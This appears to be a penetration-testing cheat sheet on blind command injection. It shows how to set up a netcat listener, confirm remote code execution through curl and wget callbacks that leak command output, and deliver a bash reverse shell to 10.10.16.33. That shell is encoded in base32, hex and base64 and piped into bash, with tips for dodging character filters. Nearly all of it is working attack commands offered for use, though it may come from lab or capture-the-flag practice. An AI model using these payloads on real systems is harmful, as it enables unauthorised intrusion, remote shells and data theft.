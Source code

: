 ```yaml
---
sort: 2
---
```


# Payload Injection 

## Detecting RCE

start listening 
```bash 
$ nc -lnvp 1234 
# OR
$ python3 -m http.server 1234
```

submit one of the payloads
```bash
# start with the least complex 
$ curl http://IP:1234/`id`
$ wget http://IP:1234/$(id)

$ curl http://IP:1234/`which base64` # base32 base58 xxd python sed printf .... 
```

what should be received
```bash 
$ nc -lnvp 1234 

# GET //usr/bin/base64 HTTP/1.1
# User-Agent: Wget/1.17.1 (linux-gnu)
# Accept: */*
# Accept-Encoding: identity
# Host: IP:1234
# Connection: Keep-Alive
```
## payloads encoding 

don't wrap the encoded payload with a qoutation ... it's better ^^ 

```bash
$ echo -n "bash -c 'bash -i >& /dev/tcp/10.10.16.33/1234     0>&1'" | base32 -w 0
# MJQXG2BAFVRSAJ3CMFZWQIBNNEQD4JRAF5SGK5RPORRXALZRGAXDCMBOGE3C4MZTF4YTEMZUEAQCAIBAGA7CMMJH

# remember to use a different port in the inner payload
$ curl http://10.10.16.33:4444/`echo MJQXG2BAFVRSAJ3CMFZWQIBNNEQD4JRAF5SGK5RPORRXALZRGAXDCMBOGE3C4MZTF4YTEMZUEAQCAIBAGA7CMMJH | base32 -d | bash`
```

```bash
$ echo -n "bash -c 'bash -i >& /dev/tcp/10.10.16.33/1234 0>&1'" | xxd -plain     
# 62617368202d63202762617368202d69203e26202f6465762f7463702f31302e31302e31362e33332f3132333420303e263127

$ echo -n "62617368202d63202762617368202d69203e26202f6465762f7463702f31302e31302e31362e33332f3132333420303e263127" | xxd -r -p

curl http://10.10.16.33:4444/`echo -n 62617368202d63202762617368202d69203e26202f6465762f7463702f31302e31302e31362e33332f3132333420303e263127 | xxd -r -p | bash`
```


## Tricks

we don't wanna see any symbols (+, =)...just add extra spaces inside the payload when using bases encoding, or try to change the port number ^^ 

```bash 
$ echo -n "bash -c 'bash -i >& /dev/tcp/10.10.16.33/1234 0>&1'" | base64 -w 0 
# YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4zMy8xMjM0IDA+JjEn

$ $ echo -n "bash -c 'bash  -i >& /dev/tcp/10.10.16.33/1234  0>&1' " | base64 -w 0
# YmFzaCAtYyAnYmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMzMvMTIzNCAgMD4mMScg
```

```bash
$ echo -n "bash -c 'bash -i >& /dev/tcp/10.10.16.33/1234 0>&1'" | base32 -w 0
# MJQXG2BAFVRSAJ3CMFZWQIBNNEQD4JRAF5SGK5RPORRXALZRGAXDCMBOGE3C4MZTF4YTEMZUEAYD4JRRE4=====    

$ echo -n "bash -c 'bash -i >& /dev/tcp/10.10.16.33/1234     0>&1'" | base32 -w 0
# MJQXG2BAFVRSAJ3CMFZWQIBNNEQD4JRAF5SGK5RPORRXALZRGAXDCMBOGE3C4MZTF4YTEMZUEAQCAIBAGA7CMMJH
```

## Some reasons why the reverse shell is not working ?

* Consider where the payload is submitted 

	* inside a script ?
	* on the browser ? 
	* on burp suite ? 

* try to avoid using **escape characters** & **symbols** (i.e `+`, `'`, `"`, `=`)

* and if you used them, escape what should be escaped

